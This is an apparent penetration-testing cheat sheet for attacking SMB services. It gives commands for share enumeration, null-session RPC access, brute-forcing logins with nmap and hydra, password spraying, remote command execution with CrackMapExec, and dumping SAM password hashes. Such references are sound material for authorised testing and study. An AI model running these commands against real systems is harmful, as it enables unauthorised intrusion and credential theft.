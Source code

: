 **Finding server shares:**
```shell
smbclient -N -L //<host>

smbmap -H <host> # Add -r <directory> to view directory
```

**Downloading and Uploading (If Allowed):**
```shell
smbmap -H <host> --download "notes\note.txt"

smbmap -H <host> --upload test.txt "notes\test.txt"
```

**RPC Client:**
Use the [SANS Cheatsheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf) or [man page](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) to find commands to use after.
```shell
rpcclient -U'%' <host>

rpcclient -U "username%passwd" <IP> #With creds
```

**Enum4Linux**
[Source](https://github.com/cddmp/enum4linux-ng)
```shell-session
./enum4linux-ng.py <host> -A -C
```
### Brute Force
```shell
nmap --script smb-brute -p 445 <IP>

hydra -l Administrator -P words.txt <host> smb -t 1
```

### CrackMapExec
**Brute Force Users**
```shell
crackmapexec smb <host> -u /tmp/userlist.txt -p <'password'>
```

**Execute Command**
```shell
crackmapexec smb 10.10.110.17 -u <user> -p <'password'> -x <'cmd'> --exec-method smbexec
```

**Enumerate Logged on Users**
```shell
crackmapexec smb <IP>/24 -u administrator -p 'Password123!' --loggedon-users
```

**Extract SAM Hashes**
```shell
crackmapexec smb <host> -u administrator -p 'Password123!' --sam
```
